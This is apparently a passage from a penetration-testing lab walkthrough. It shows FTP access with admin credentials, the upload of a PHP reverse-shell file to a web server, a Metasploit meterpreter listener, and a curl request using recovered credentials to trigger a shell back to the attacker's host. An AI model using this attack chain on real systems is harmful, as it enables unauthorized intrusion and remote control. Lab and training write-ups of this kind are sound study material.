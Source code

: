 ```bash
kali@kali:~$ ftp 192.168.68.46
Connected to 192.168.68.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.68.46:kali): admin
331 User name received, need password.
Password:
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> put pwn.php
local: pwn.php remote: pwn.php
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
1113 bytes sent in 0.00 secs (14.9499 MB/s)
ftp> dir
200 PORT Command successful.
150 Opening connection for /bin/ls.
total 5
-r--r--r--   1 root     root         1113 Dec 28 02:08 pwn.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> bye
221 Goodbye.
kali@kali:~$

Let’s set up our meterpreter listener and trigger the reverse shell by connecting on port 242 with the recovered credentials of offsec:elite.

kali@kali:~$ msfconsole
...
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.49.68
LHOST => 192.168.49.68
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 

Now, we’ll trigger our reverse shell.

kali@kali:~$ curl --user offsec:elite 192.168.68.46:242/pwn.php

The listener indicates that we have received our shell.

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.68:443 
[*] Sending stage (38288 bytes) to 192.168.68.46
```